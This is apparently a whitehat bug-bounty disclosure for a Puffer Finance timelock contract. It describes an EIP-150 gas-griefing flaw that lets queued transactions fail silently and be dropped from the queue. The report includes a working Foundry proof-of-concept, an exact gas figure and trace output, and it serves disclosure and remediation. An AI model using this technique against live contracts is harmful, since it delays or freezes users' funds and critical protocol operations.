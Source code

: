 # Timelock transaction that consume more then `209_595` gas will not be executed but the upper transaction will succeed
Submitted about 1 month ago by @OxDEADBEEF (Whitehat) for Boost | Puffer Finance

Report ID: #28623

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Temporary freezing of funds for at least 1 hour
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
- Contract fails to deliver promised returns, but doesn't lose value

# Details

The timelock's `executeTransaction` does not validate that it has enough gas to execute the underlying transaction. Because of eip-150's `63/64` gas rule - transactions that need more then `209_595` gas to execute can fail due to out of gas while the parent transaction transaction has enough gas (1/64) to successfully finish the transaction

# Vulnerability Details
`executeTransaction` calls the `target` with the `callData`.

```
    function executeTransaction(address target, bytes calldata callData, uint256 operationId)
        external
        returns (bool success, bytes memory returnData)
    {
--------------
        queue[txHash] = 0;
        (success, returnData) = _executeTransaction(target, callData);

        emit TransactionExecuted(txHash, target, callData, operationId);

        return (success, returnData);
    }
    
function _executeTransaction(address target, bytes calldata callData) internal returns (bool, bytes memory) {
        // slither-disable-next-line arbitrary-send-eth
        return target.call(callData);
    }
```

As can be seen above - After calling the target, not much gas is needed to finish the transaction. After EIP-150 the EVM reserves 1/64 of the gas consumed target so that `executeTransaction` can finish the transaction. As seen in the POC - the minimum amount of gas target needs to consume in order to leave enough gas for the transaction to succeed is `209_595`.

If target needs more then that - the target can fail due to out of gas while the `executeTransaction` and the transaction will be deleted from the queue:

1. `executeTransaction` is called with `214_640` gas.
2. `target` consumes all `209_595` gas and runs out
3. Upper transaction did not revert and `queue[txHash] = 0;` .

I suggest to check after the call to target if there is more then needed gasleft

# Impact Details
When the `OPERATIONS_MULTISIG` calls `executeTransaction` to execute a long waited transaction it can by mistake or maliciously set the exact gas needed for `executeTransaction` to succeed but the underlying call to target will fail.

This means that the transaction would need to be listed again in the timelock. If the call to target resolves around movement of funds or any other critical operation - it will be delayed

# Proof of concept

Add the following function to `Timelock.t.sol`

```
    function gasConsumingFunc() external {
        uint256 gasToConsume = 209595;
        uint256 gasStart = gasleft();
        for(uint256 i = 0; gasStart - gasleft() < gasToConsume; i++ ) {
            assembly {
                let x := mload(0x1337)
            }
        }
    }
    function test_execute_fails() public {
        vm.startPrank(timelock.OPERATIONS_MULTISIG());

        bytes memory callData = abi.encodeCall(this.gasConsumingFunc, ());

        uint256 operationId = 1234;

        bytes32 txHash = timelock.queueTransaction(address(this), callData, operationId);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        
        vm.warp(lockedUntil + 20);

        uint256 gasToUse = 214_640;
        timelock.executeTransaction{gas: gasToUse}(address(this), callData, operationId);
    }
```

To run the test:

`forge test --match-test test_execute_fails -vvvv`

Expected output:

```
[PASS] test_execute_fails() (gas: 236021)
Traces:
  [236021] TimelockTest::test_execute_fails()
    ├─ [227] Timelock::OPERATIONS_MULTISIG() [staticcall]
    │   └─ ← operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6]
    ├─ [0] VM::startPrank(operationsMultisig: [0x78dE5808728A273648A7D301D7767C4fd5Dc0fF6])
    │   └─ ← ()
    ├─ [29140] Timelock::queueTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ emit TransactionQueued(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234, lockedUntil: 604802 [6.048e5])
    │   └─ ← 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d
    ├─ [404] Timelock::delay() [staticcall]
    │   └─ ← 604801 [6.048e5]
    ├─ [0] VM::warp(604822 [6.048e5])
    │   └─ ← ()
    ├─ [214640] Timelock::executeTransaction(TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], 0x70c61722, 1234)
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
    │   ├─ emit TransactionExecuted(txHash: 0x2f606a6f8ff5ba05ce0676cf365e2a06b4c8689e009403cf2324b015a1f0fe7d, target: TimelockTest: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496], callData: 0x70c61722, operationId: 1234)
    │   └─ ← false, 0x
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```

As can be seen the transaction succeeds while `gasConsumingFunc` fails

```
    │   ├─ [209600] TimelockTest::gasConsumingFunc()
    │   │   └─ ← EvmError: OutOfGas
---------
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.51ms
```
